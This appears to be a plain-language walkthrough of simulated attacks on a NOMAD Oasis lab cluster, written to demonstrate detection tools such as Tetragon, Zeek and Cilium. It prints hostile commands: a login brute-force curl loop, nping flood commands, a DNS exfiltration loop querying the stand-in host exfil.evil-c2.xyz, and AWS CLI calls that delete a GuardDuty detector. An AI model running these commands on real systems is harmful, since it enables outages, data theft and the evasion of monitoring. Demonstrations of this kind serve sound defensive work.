nmap — The Door Knocker
John starts attacking from outside. Imagine your building has 65,000 doors. John stands outside and knocks on every single one as fast as he can, trying to find which ones open. He also sends a weird knock that only hackers use — a packet with both SYN and FIN flags at the same time. No normal visitor ever does that.
Starting Nmap 7.98 at 2026-06-09 21:03 UTC PORT STATE SERVICE 22/tcp open ssh 80/tcp open http Nmap done: 1 IP address scanned in 12.45 seconds

He finds an open port and gets a foothold inside a pod. He starts mapping every service, every version number, every reachable IP. He builds a list of known vulnerabilities matching what he found — and picks his next target.
Directory Busting — The Corridor Crawler
John found the NOMAD Oasis web application. He runs a tool that fires hundreds of HTTP
requests per second, each guessing a different hidden URL: /admin, /api/keys,
/backup.zip, /.env, /config... He's trying every door on every
floor hoping one was left unlocked. He then hammers /login with credential combinations
until something works.
/admin (Status: 403) /login (Status: 200) <-- found /api/v1 (Status: 200) <-- found
attacker@pentest-netshoot:~$ for i in $(seq 1 20); do curl -s -X POST http://10.30.11.49/login -d "user=admin&pass=test$i" & done; wait

He finds an exposed API endpoint without authentication. He downloads all scientific datasets stored in NOMAD Oasis without a password, and searches the responses for API keys or credentials accidentally left in a config file.
DDoS — The Mob at the Door
This time John doesn't want to sneak in — he just wants to break things. He rents a botnet of thousands of infected computers and tells all of them to flood your servers at once. Three waves hit simultaneously: a SYN flood that fills your server's memory with half-open connections, a UDP flood that wastes all its CPU, and an ICMP flood that saturates the network pipe entirely.
Sent 2000 packets in 0.43 seconds | 4651.16 pkts/sec
attacker@pentest-netshoot:~$ nping --udp -p 53 --flood --count 2000 10.30.11.49
Sent 2000 packets in 0.39 seconds | 5128.21 pkts/sec
attacker@pentest-netshoot:~$ nping --icmp --flood --count 1000 10.30.11.49
Sent 1000 packets in 0.21 seconds | 4761.90 pkts/sec



A DDoS doesn't need to get inside. The goal is simply to make everything unavailable. Scientists can't access their data. Uploads fail. The platform goes offline completely. And while your team is responding to the flood — John's real attack may be happening somewhere else, quietly.
Container Shell Spawn — The Ghost Inside
John exploits a vulnerability in the NOMAD web application and gets remote code execution.
He opens an interactive shell inside the running container — like finding a hidden hatch
inside one of the rooms and climbing through it. From there he tries to run
nmap to scan the internal network and plan his next move.
root@nomad-oasis-app:/#
root@nomad-oasis-app:/# nmap -sS 10.30.10.0/24
Killed



With a shell inside the pod, John can read application secrets, environment variables,
and mounted files. He can try to escalate privileges by calling nsenter
or setuid to break out of the container entirely and reach the underlying node.
Tetragon watches every syscall and fires a privilege escalation alert the instant he tries.
DNS Exfiltration — The Whispering Thief
John is inside a pod and has stolen research data, but every direct connection to the internet is blocked by Cilium. So he gets clever. He encodes the stolen data in base64, splits it into tiny chunks, and hides each piece inside a DNS query — like smuggling letters out of a building by writing them on the back of postcards. DNS looks like normal web traffic, so it often slips through.
> dig ${chunk}.exfil.evil-c2.xyz; done
; <<>> DiG <<>> aGVsbG8gd29ybGQ.exfil.evil-c2.xyz ; <<>> DiG <<>> dGhpcyBpcyBzdG9s.exfil.evil-c2.xyz ; <<>> DiG <<>> ZW4gcmVzZWFyY2g.exfil.evil-c2.xyz

John now has a copy of years of scientific research on his machine. The data left the building through a channel that looked like normal web traffic. Without Zeek watching DNS at this level of detail, the exfiltration would be invisible.
Cloud Backdoor — The Invisible Admin
John doesn't touch the application at all this time. He found leaked AWS credentials and goes straight to the AWS control panel. First he opens a secret backdoor port in the firewall so he can connect directly to any server. Then he checks which IAM roles have admin access — and tries to disable GuardDuty so AWS stops watching him.
{}
john@attacker:~$ aws iam list-attached-role-policies --role-name github-runner-role
AdministratorAccess <-- full AWS admin via CI/CD pipeline
john@attacker:~$ aws guardduty delete-detector --detector-id abc123def456
{}



John now has a permanent backdoor into the infrastructure that survives container
restarts and redeployments. With github-runner-role having full
AdministratorAccess, he can inject malicious code into the CI/CD pipeline
and ship it to every deployment — a supply chain attack from the inside.